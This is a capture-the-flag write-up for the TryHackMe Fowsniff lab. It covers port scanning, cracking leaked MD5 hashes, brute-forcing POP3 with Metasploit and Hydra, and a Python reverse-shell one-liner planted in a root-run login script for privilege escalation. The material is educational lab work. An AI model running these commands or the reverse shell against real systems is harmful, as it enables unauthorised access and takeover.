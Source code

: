 # Fowsniff CTF | Write-up (THM)

![fowsniff_ctf](https://github.com/user-attachments/assets/de0f68ca-d3eb-4048-a092-f0a648951d6a)

## Enumeration
#### On deploying the machine in the room, I get the following IP address for the machine: ```10.10.157.167```
#### So lets try to find out what ports and services are open using nmap . The command I use generally for nmap is 
```
nmap -sV -vv <machine_ip>
```
#### So lets run that scan here: ```nmap -sV -vv 10.10.157.167``` and we see the following results:
![image](https://github.com/user-attachments/assets/6ebb06bc-c4f5-4590-b5b9-6a0cd87bf7f1)

#### As we can see, ports 80, 110 and 143 are the ports which seem to be open from the common ports. 
Port 80 is for HTTP. <br>
Port 110 is for POP3.<br>
Port 143 for IMAP.<br>

#### Lets take a look at the website  .
![image](https://github.com/user-attachments/assets/ca653db2-966c-4953-bf95-021068575ce5)
#### On the page we see that Fowsniff's internal system has been compromised and employee usernames and passwords may have been exposed. Also, the attackers managed to hack the official ```Twitter account @fowsniffcorp```, and sensitive information may have been exposed by the attackers through this account! Let's see if they actually did it 

#### When checking the Twitter account ```@fowsniffcorp```, we see:
![image](https://github.com/user-attachments/assets/8cc0076b-1fdb-4be5-8ff5-10c7b241feab)
#### It seems to have been hacked, as expected. The attacker seems to have leaked the passwords as can be seen in the pinned tweet. Let's open the pastebin link to see the file.

By going to [fowsniff.txt](https://github.com/berzerk0/Fowsniff/blob/main/fowsniff.txt) we get the following password hashes with email addresses:
```
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
Fowsniff Corporation Passwords LEAKED!
FOWSNIFF CORP PASSWORD DUMP!
Here are their email passwords dumped from their databases.
They left their pop3 server WIDE OPEN, too!
MD5 is insecure, so you shouldn't have trouble cracking them but I was too lazy haha =P
```
#### Since these are all MD5 encrypted passwords, we can try to crack them. But before we do that, I just wanted to point out this recent tweet from the hacked FowSniff Corp account:
![image](https://github.com/user-attachments/assets/26b02afe-1716-44a1-85fd-654d317c04d9)
#### This indicates that the sysadmin has the following credentials:

stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd

## Hash Cracking
#### Let's crack this hash using an online tool, ```CrackStation```
![image](https://github.com/user-attachments/assets/c9ebf919-1fd9-4166-821b-c40e017a5958)

#### As we can see, CrackStation was able to crack all the partitions except one, which is the one for the system administrator.

#### Now lets try to see if we can brute force the pop3 login using metasploit, as asked in one of the questions in the room.
On opening ```msfconsole``` and doing ```search pop3``` , we get the first option as ```auxiliary/scanner/pop3/pop3_login``` . Seems like we can brute force email logins using this module.
Lets use this module to brute force the login. First, select that module to use using ```use auxiliary/scanner/pop3/pop3_login``` . (Tip: we can also use the module # in the search results, 0 here, like ```use 0``` to directly select the corresponding module number).

#### Now once we selected to use the module, we can show the options we need to set using ```show options``` .

![image](https://github.com/user-attachments/assets/c62ca615-6885-44a8-889e-76e83bbc103f)

#### Use Metasploit module for brute forcing the POP3 service:
```
msfconsole
use auxiliary/scanner/pop3/pop3_login
set RHOSTS (the machine we are attacking)
set USER_FILE username.txt
set PASS_FILE password.txt
run
```
![image](https://github.com/user-attachments/assets/03f4c981-785e-4d90-9ca5-1a3d2a701ce8)
POP3 Username and Password brute force results

##### it seems worked.
```
seina:scoobydoo2
```
## However, ```Hydra``` is faster
```
 hydra -L usernames.txt -P passwords.txt pop3://<machine_ip>
```

```
hydra -L usernames.txt -P passwords.txt pop3://10.10.157.167
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-20 19:05:30
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 72 login tries (l:9/p:8), ~5 tries per task
[DATA] attacking pop3://10.10.157.167/
[110][pop3] host: 10.10.157.167   login: seina   password: scoobydoo2
1 of 1 target successfully completed, 1 valid password found
```
#### We confirm that 1 account is still valid: ```seina:scoobydoo2```

#### Let's try to connect to the email service using Seina's credentials.
#### To do this, I did a quick search and found this site:  [pop3-commands](https://electrictoolbox.com/pop3-commands/)

#### So, we can execute the command ```telnet 10.10.157.167 110``` to connect to the email server using telnet.
#### After that, we can issue the command ```USER seina``` followed by the commands ```PASS scoobydoo2``` and we can see that we are logged in.
#### Now, we can execute the command ```LIST``` to see the list of emails which shows us the message summary with the message number and the byte size of the message.
#### We can do a ```RETR 1``` to retrieve the 1st message. On doing that, we see it is from ```stone@fowsniff``` and it seems its sent to all other employees.

#### From the message we get the temporary SSH password:
```
S1ck3nBluff+secureshell
```
#### Similarly, we can retrieve the second email, but we don't see anything useful in that.
#### Now, let's try to connect to the SSH login account using the Stone account using this password, as shown in the following question:
```
ssh stone@10.10.157.167
```
#### This password doesn't seem to work with ```Stone``` or ```Seina```. Let's see if it works with ```Baksteen```, as the second email was sent by them.
#### And it worked! We logged into the system as ```baksteen```.

## Privilege Escalation

#### Let's see what groups the user belongs to. We can do this using the ```groups``` command. We can see that ```baksteen``` is part of the ```user``` and baksteen groups. Let's see if there are any interesting files that can be executed by users of these groups.

#### We see an interesting file, ```/opt/cube/cube.sh``` . When we check the permissions, we see that it is owned by the ```user``` group, and we can write to this file. We can see that this file is executed by root whenever the Message of The Day file in ```/etc/update-motd.d/00-header``` is executed (whenever we log into the machine via SSH), so let's include some reverse shell code inside the file. We can use the Python reverse shell provided by TryHackMe:
```
python3 -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((<IP>,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’
```
#### We can replace <IP> with the attacker's IP address (in quotes), and  with whatever port we want to receive a reverse connection on.
#### Now we can set up a netcat listener on the attacker's machine where we will receive a reverse connection: ``` nc -lvnp 4444 ```

#### Once we have everything set up, we can connect to the machine using SSH again as ``` baksteen ```.

#### And right after logging into the machine, we get a reverse shell connection again as  ``` root ``` on the netcat listener!

![image](https://github.com/user-attachments/assets/1e78a34a-f306-4e9e-b3ec-8cc9635e50ac)

Root access

#### Thank you very much for reading .
